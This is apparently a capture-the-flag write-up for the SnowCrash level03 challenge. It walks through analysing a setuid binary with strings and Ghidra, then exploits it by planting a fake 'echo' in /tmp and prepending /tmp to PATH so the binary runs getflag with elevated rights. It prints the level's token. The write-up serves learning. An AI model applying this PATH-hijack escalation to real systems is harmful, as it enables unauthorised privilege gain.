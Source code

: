 # level03
_The ritual_ :
- `pwd`: `/home/user/level03`
- `id`: `uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
- `find / -user flag02 2> /dev/null`: **A LOT OF USELESS THINGS**
It show all the `/proc` folder.

_Oh... A binary file... **RUN IT**_
```sh
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
_Okay let's exploit you !_
- A binary file can't be read by a human, but there is some hint in it anyway, and the command `strings` isolate them :
```sh
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level03.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
level03@SnowCrash:~$
```

- Okay, we can see these lines : `system` - `/usr/bin/env echo Exploit me`
-> In the binary we can see all function used and there arguments
- `system` execute a command line the terminal
- `/usr/bin/env echo Exploit me` can be how the output is execut.

_I think it's time to discover how to decompile a file_
- Let's tranfer this file in my machine :
```sh
➜  ~ scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::2577:d9d0:9935:9a6 fec0::5054:ff:fe12:3456
level03@127.0.0.1's password:
level03                                                                                                                                                                   100% 8302   403.5KB/s   00:00
➜  ~
```
- And let's install [ghidra](https://ghidra-sre.org/)

**OKAY, the file is decompiled** :

![decompiled](../../assets/level03/decompiled.png)
## YES ! I had just !

_So, what I have supposed to do now ?_

- We can "intercept" the command `echo` by adding a folder in the `PATH`, but wich one ? A folder for which I have the rights... **`/tmp`** ?
```sh
level03@SnowCrash:~$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
```
If I create a file named "echo" in `/tmp` with a command in it, what happened ?
```sh
level03@SnowCrash:~$ echo "ls" > /tmp/echo
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
- Nothing happened... maybe the file has not the good permissions ?
```sh
level03@SnowCrash:~$ chmod 777 /tmp/echo
```
- Let's try again :
```sh
level03@SnowCrash:~$ ./level03
ls: cannot open directory .: Permission denied
level03@SnowCrash:~$
```
### SUCCESS, SOMETHING HAPPENED
_What we can do to this program ?... Which command can help us to complet this level ??? Mmmmhhhh..._
```sh
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```
# YEEEEEEEESSS
Let's login to `level04` directly :
```sh
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
# level03 complet !
![yeah](../../assets/yeah.gif)